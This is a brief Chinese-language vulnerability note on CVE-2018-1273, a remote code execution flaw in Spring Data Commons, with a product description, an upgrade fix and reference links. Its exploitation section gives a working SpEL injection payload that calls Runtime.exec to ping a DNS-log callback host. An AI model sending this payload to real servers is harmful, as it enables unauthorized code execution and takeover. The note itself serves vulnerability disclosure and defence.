 ### 一 漏洞描述
Spring Data 是Spring 的一个子项目， 旨在统一和简化对各类型持久化存储， 而不拘泥于是关系型数据库还是NoSQL 数据存储。  
无论是哪种持久化存储， 数据访问对象（或称作为DAO，即Data Access Objects）通常都会提供对单一域对象的CRUD （创建、读取、更新、删除）操作、查询方法、排序和分页方法等。  
Spring Data则提供了基于这些层面的统一接口（CrudRepository，PagingAndSortingRepository）以及对持久化存储的实现。

Commons是spring data的子项目，提供共享的基础框架，适合各个子项目使用，支持跨数据库持久化

Spring Data Commons爆出远程代码执行漏洞（CVE-2018-1273），攻击者可构造包含有恶意代码的SPEL表达式实现远程代码攻击，直接获取服务器控制权限

### 二 漏洞利用
xxx[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("ping -n 1 {dnslog}")]=&xxx

### 三 漏洞修复
升级组件  

### 四 漏洞分析
![img.png](img.png)

> 参考链接
> http://blog.nsfocus.net/cve-2018-1273/ 
> http://blog.nsfocus.net/cve-2018-1273-analysis/  
> https://www.oschina.net/p/spring-data?hmsr=aladdin1e1
